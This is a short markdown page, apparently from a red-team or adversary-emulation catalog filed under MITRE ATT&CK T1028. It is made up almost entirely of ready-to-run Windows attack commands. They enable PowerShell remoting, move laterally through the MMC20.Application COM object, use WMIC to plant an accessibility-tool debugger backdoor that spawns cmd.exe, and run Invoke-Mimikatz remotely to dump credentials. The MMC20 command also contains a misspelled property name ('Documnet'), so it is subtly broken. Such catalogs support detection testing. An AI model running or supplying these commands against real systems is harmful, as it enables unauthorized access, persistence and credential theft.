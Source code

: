 ﻿## Windows Remote Management

MITRE ATT&CK Technique: [T1028](https://attack.mitre.org/wiki/Technique/T1028)

### Enable Windows Remote Management

Input:

    powershell Enable-PSRemoting -Force

### Powershell lateral movement using the mmc20 application com object

Input:

    powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","<computer_name>")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/


### WMIC Process Call Create

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

### PowerSploit Invoke-Mimikatz WinRM

    powershell-import /local/path/to/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComputerName TARGET

Reference:

 https://blog.cobaltstrike.com/2015/07/22/winrm-is-my-remote-access-tool/
